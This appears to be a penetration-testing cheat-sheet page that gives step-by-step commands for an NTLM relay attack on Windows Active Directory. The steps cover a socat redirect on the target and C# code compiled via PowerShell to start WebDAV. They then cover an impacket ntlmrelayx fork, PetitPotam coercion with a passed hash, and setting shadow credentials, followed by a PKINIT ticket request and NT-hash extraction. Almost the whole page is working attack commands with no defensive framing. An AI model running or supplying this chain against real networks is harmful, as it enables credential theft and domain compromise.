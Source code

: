 ```yaml
---
title: "NTLM Relay Attack"
date: 2024-8-3
tags: ["Shadow Credentials", "Attack Chain", "Ntlm", "Ldap", "Pass-The-Hash", "Impacket", "Ntlmreplay", "Petitpotam", "Active Directory", "Windows", "ADCS", "Webdav", "Pkinit", "Ticket Granting Ticket"]
---
```


### NTLM Relay Attack

#### 1. Run socat to redirect traffic (In Windows Target)

```console
# Upload socat.zip and unzip
Add-Type -AssemblyName System.IO.Compression.FileSystem; [System.IO.Compression.ZipFile]::ExtractToDirectory('c:\programdata\socat.zip', 'c:\programdata')
```

```console
.\socat.exe tcp-listen:8090,reuseaddr,fork tcp:<LOCAL_IP>:80
```

<small>*Ref: [socat](https://codeload.github.com/StudioEtrange/socat-windows/zip/refs/heads/master)*</small>

#### 2. Enable webdav (In Windows Target)

```console
$Source = @"
using System;
using System.Text;
using System.Security;
using System.Collections.Generic;
using System.Runtime.Versioning;
using Microsoft.Win32.SafeHandles;
using System.Runtime.InteropServices;
using System.Diagnostics.CodeAnalysis;

namespace JosL.WebClient{
	public static class Starter{
		[StructLayout(LayoutKind.Explicit, Size=16)]
		public class EVENT_DESCRIPTOR{
			[FieldOffset(0)]ushort Id = 1;
			[FieldOffset(2)]byte Version = 0;
			[FieldOffset(3)]byte Channel = 0;
			[FieldOffset(4)]byte Level = 4;
			[FieldOffset(5)]byte Opcode = 0;
			[FieldOffset(6)]ushort Task = 0;
			[FieldOffset(8)]long Keyword = 0;
		}
 
		[StructLayout(LayoutKind.Explicit, Size = 16)]
		public struct EventData{
			[FieldOffset(0)]
			internal UInt64 DataPointer;
			[FieldOffset(8)]
			internal uint Size;
			[FieldOffset(12)]
			internal int Reserved;
		}
 
		public static void startService(){
			Guid webClientTrigger = new Guid(0x22B6D684, 0xFA63, 0x4578, 0x87, 0xC9, 0xEF, 0xFC, 0xBE, 0x66, 0x43, 0xC7);
 
			long handle = 0;
			uint output = EventRegister(ref webClientTrigger, IntPtr.Zero, IntPtr.Zero, ref handle);
 
			bool success = false;
 
			if (output == 0){
				EVENT_DESCRIPTOR desc = new EVENT_DESCRIPTOR();
				unsafe
				{
					uint writeOutput = EventWrite(handle, ref desc, 0, null);
					success = writeOutput == 0;
					EventUnregister(handle);
				}
			}
		}
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventRegister(ref Guid guid, [Optional] IntPtr EnableCallback, [Optional] IntPtr CallbackContext, [In][Out] ref long RegHandle);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern unsafe uint EventWrite(long RegHandle, ref EVENT_DESCRIPTOR EventDescriptor, uint UserDataCount, EventData* UserData);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventUnregister(long RegHandle);
	}
}
"@

$compilerParameters = New-Object System.CodeDom.Compiler.CompilerParameters
$compilerParameters.CompilerOptions="/unsafe"
Add-Type -TypeDefinition $Source -Language CSharp -CompilerParameters $compilerParameters
[JosL.WebClient.Starter]::startService()

```

<br>

```console
# Run enable_webdav.ps1
C:\programdata\enable_webdav.ps1
```

#### 3. Start ntlmrelayx listener (In Local Linux)

#### Get impacket fork : Add Shadow Credentials Commands to Ntlmrelayx's Interactive LDAP Shell

```console
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
```

```console
cd impacket
```

```console
git checkout -b remotes/origin/interactive-ldap-shadow-creds
```

```console
python3 -m venv test
```

```console
source test/bin/activate
```

```console
pip install .
```

```console
pip3 install impacket pyOpenSSL==24.0.0
```

#### Run ntlmrelayx

```console
proxychains4 examples/ntlmrelayx.py -t ldaps://<DC> --delegate-access -i
```

#### 4. Run PetitPotam (In Local Linux)

```console
proxychains4 python3 PetitPotam.py -u <USER> -hashes :<HASH> <SOCAT_HOSTNAME>@8090/test <SOCAT_LISTENER_IP> -pipe all
```

<small>*Ref: [PetitPotam](https://github.com/topotam/PetitPotam)*</small>

#### 5. Connect to LDAP shell (In Local Linux)

```console
rlwrap nc 127.0.0.1 11000
```

```console
clear_shadow_creds <SOCAT_HOSTNAME>$
```

```console
# Take Note of pfx path and password
set_shadow_creds <SOCAT_HOSTNAME>$
```

#### 6. Request TGT using pfx file (In Local Linux)

```console
proxychains4 python3 gettgtpkinit.py '<DOMAIN>/<SOCAT_HOSTNAME>$' <SOCAT_HOSTNAME>.ccache -cert-pfx <RANDOM_CHARS>.pfx -pfx-pass <RANDOM_CHARS_PASSWORD> -dc-ip <DC>
```

<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

#### 7. Get NT Hash (In Local Linux)

```console
proxychains4 python3 getnthash.py '<DOMAIN>/<SOCAT_HOSTNAME>$' -key <AS_REP_ENC_KEY>
```

